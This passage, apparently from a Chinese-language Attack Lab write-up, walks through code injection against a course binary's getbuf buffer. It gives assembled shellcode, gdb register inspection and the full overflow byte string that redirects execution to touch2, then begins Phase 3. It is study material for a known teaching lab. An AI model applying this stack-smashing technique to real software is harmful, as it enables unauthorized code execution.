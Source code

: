 所以初步的攻击代码如下:

```nasm
movl    $0x59b997fa, %edi
pushq   $0x4017ec
ret
```

将其转为字节码后，作为输入的字符串。

```bash
touch attack2.s
vim attack2.s     # 编辑代码
gcc -c attack2.s
objdump -d attack2.o
```

得到:

```text
attack2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	68 ec 17 40 00       	pushq  $0x4017ec
   a:	c3                   	retq   
```

同时，需要知道当程序运行到`getbuf`时，`%rsp`寄存器的值，因为我们需要绕回到这个地址然后逐行执行攻击代码。

在`getbuf`第二行汇编处断点，用gdb调试打印`%rsp`寄存器的值即可。

```bash
(gdb) i r rsp
0x5561dc78
```

所以level2的注入代码如下:

```text
bf fa 97 b9 59 68 ec 17
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

## Phase 3

首先读懂要做什么，请仔细阅读writeup.

其实就是getbuf结束后，不回到test函数，而是调用touch3，同时传入字符串。这个字符串的值要求是cookie的ascii表示:

```text
cookie: 0x59b997fa
hex:    35 39 62 39 39 37 66 61 # 这个作为字符串存放在内存的某个位置
```
